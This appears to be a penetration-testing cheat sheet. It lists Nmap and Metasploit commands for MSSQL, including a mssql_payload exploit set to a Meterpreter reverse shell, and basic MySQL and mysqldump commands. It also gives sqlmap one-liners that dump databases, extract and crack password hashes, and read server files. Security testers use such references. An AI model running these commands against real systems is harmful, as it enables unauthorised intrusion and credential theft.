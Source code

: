 # Enumeration / Discovery:
### Nmap:
```
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
```

### Metasploit:
```
msf > use auxiliary/scanner/mssql/mssql_ping
```
### Bruteforce MSSQL Login
```
msf > use auxiliary/admin/mssql/mssql_enum
```

### Metasploit MSSQL Shell
```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```



# mysql 
### start the mysql databse program
```
sudo mysql 
```
### commands must end in a semicolon.
### Displays all installed databases
```
show databases;
```

### Connects to a specific database
```
use <db>;
```

### Displays all tables in a database
```
show tables;
```

### Displays column names for a given table.
```
describe <table>;
```

### Selects all records from <table>.
```
select * from <table>;
```

### Display all installed databases 
```
show databases;
```

## Dump mysql database to text file
### mysqldump
```
sudo mysqldump <table> > /path/to/file.sql
```

# SQLMap Examples
### A mini SQLMap cheat sheet:
Automated sqlmap scan
```
sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3						
```
Targeted sqlmap scan
```
sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/blah.php" 	
```
Scan url for union + error based  injection with mysql backend and use a random user agent + database dump
```
sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump
``` 								
sqlmap check form for injection
```
sqlmap -o -u "http://meh.com/form/" --forms
```
sqlmap dump and crack hashes for table users on database-name.
```
sqlmap -o -u "http://meh/vuln-form" --forms -D database-name -T users --dump
```


